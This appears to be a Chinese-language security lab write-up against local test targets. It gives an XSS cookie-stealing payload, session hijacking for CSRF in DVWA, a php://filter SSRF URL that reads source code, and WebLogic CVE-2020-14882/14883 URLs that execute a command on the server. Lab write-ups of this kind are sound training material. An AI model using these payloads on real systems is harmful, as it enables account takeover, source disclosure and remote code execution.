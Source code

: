 ## 1.CSRF

- DVWA-High 等级

在谷歌浏览器登录DVWA的用户smithy，利用XSS漏洞输入<img src=x Onerror=alert(document.cookie)>获取smithy用户的cookie

PHPSESSID=u9fvg4fescp78va2qhk7s4di03; security=high

![1](1.png)

在火狐浏览器登录admin用户，在CSRF模块修改密码，然后用Burp抓包，修改security等级为low，把当前cookie中的PHPSESSID替换为smithy的，然后去掉参数User_token

![2](2.png)

此时火狐浏览器登录账户为smithy，security等级为low，提示密码已经修改

![3](3.png)

- 使用 Burp 生成 CSRF 利用 POC

首先在谷歌浏览器登录allen的账号，可以看到此时个人信息都为初始值

![4](4.png)

在火狐浏览器登录lucy的账号，修改个人信息，然后用Burp抓包

![5](5.png)

![6](6.png)

利用Burp生成POC

![7](7.png)

复制HTML代码，然后在谷歌浏览器打开，点击提交

![8](8.png)

此时谷歌浏览器登录的allen个人信息被修改

![9](9.png)

## 2.SSRF（file_get_content），要求获取 ssrf.php 的源码；

利用 php://filter 来读取php源码；为了防止源码被解析，对代码进行编码，在read参数中加入 convert.base64-encode ；同时ssrf.php在ssrf文件夹下，和ssrf_fgc.php在同一个文件夹下，所以URL链接为 

http://10.0.0.131/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php

![10](10.png)

利用解码工具进行解码，得到ssrf.php源码，源码保存在了记事本里![11](11.png)

## 3.远程代码执行漏洞：Weblogic RCE。

利用CVE-2020-14882漏洞未授权访问到后台管理页面，URL链接为

http://10.0.0.131:7001/console/css/%252e%252e%252fconsole.portal

![12](12.png)

然后再借助漏洞CVE-2020-14883，访问下列URL链接，在服务器tmp文件夹下新建文件hack

10.0.0.131:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/hack');")



在容器后台进行查看，发现确实在tmp文件夹下新建了hack文件

![13](13.png)
